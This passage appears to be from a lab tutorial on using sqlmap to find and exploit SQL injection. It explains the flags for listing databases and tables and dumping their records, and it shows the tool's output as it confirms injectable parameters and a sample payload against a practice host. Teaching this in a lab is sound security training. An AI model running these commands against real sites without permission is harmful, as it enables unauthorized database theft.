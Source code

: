 ```bash
user@ubuntu:~$ sqlmap --wizard
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]

[*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u): 
```

The `--dbs` flag helps you to extract all the database names. Once you get to know the database names, you can extract information about the tables of that database by using `-D database_name --tables`. After obtaining the tables, if you want to enumerate the records in those tables, you can use `-D database_name -T table_name --dump`. The different flags in the SQLMap tool let you extract detailed information from the databases. Now, let's take a practical scenario and use all the above flags to exploit a web application vulnerable to SQL injection.

The first step is to look for a possible vulnerable URL or request. You may often come across some URLs that use GET parameters to retrieve the data. For example, a URL like `http://sqlmaptesting.thm/search?cat=1` uses a parameter `cat` that takes the value `1`. If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the -u flag in the SQLMap tool. This is considered to be HTTP GET-based testing. This approach is followed when the application uses GET parameters in the URL to retrieve data from the searches.

We will use a supposedly vulnerable website URL: `http://sqlmaptesting.thm` for the demonstration. Suppose that this website has a search option, and when you click on this search option and search for something, the URL becomes `http://sqlmaptesting.thm/search/cat=1`, which uses the GET parameter `cat=1` in the URL to extract information from the database. As we know, URLs that have GET parameters can be vulnerable to SQL injection; let us scan this URL to identify if it has any SQL injection vulnerability.

```bash
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

```